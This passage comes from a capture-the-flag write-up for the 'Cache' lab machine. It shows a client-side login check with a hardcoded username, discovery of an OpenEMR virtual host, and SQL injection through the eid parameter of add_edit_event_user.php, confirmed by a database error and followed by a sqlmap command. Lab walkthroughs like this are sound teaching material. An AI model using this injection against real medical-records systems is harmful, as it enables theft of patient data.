 ```js
        if(Username != "ash"){
            alert("Username didn't Match");
            error_username = true;
        }
    }
    $("#loginform").submit(function(event) {
        /* Act on the event */
        error_correctPassword = false;
         checkCorrectPassword();
         error_username = false;
         checkCorrectUsername();


        if(error_correctPassword == false && error_username ==false){
            return true;
        }
        else{
            return false;
        }
    });
    
});
```
Using these credentials against the login form redirects us to http://cache.htb/net.html, a page under construction, and the analysis of the other pages source code doesn’t reveal anything else.

---
## HMS vhost
However, the */author.html* page contains a hint:
```markdown
ASH is a Security Researcher (Threat Research Labs), Security Engineer. Hacker, Penetration Tester and Security blogger. He is Editor-in-Chief, Author & Creator of Cache. Check out his other projects like Cache:

HMS(Hospital Management System)
```

Add *hms.htb* to */etc/hosts* and visit http://hms.htb. It shows OpenEMR, an open source electronic health records and medical practice management solution.

---
## SQL Injection
The application is vulnerable to SQL injection. The technique is detailed in this [video](https://www.youtube.com/watch?v=DJSQ8Pk_7hc).

Fire up BurpSuite and intercept the following request: http://hms.htb/portal/add_edit_event_user.php?eid=1’, which outputs the following error message:
```ma
Query Error

ERROR: query failed: SELECT pc_facility, pc_multiple, pc_aid, facility.name FROM openemr_postcalendar_events LEFT JOIN facility ON (openemr_postcalendar_events.pc_facility = facility.id) WHERE pc_eid = 1'

Error: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''' at line 4

/var/www/hms.htb/public_html/portal/add_edit_event_user.php at 121:sqlQuery
```
Save the request from BurpSuite as *add_edit_event_user.xml* and use the file with *sqlmap*:
```md
kali@kali:/data/Cache/files$ sqlmap -r add_edit_event_user.xml --dbs

```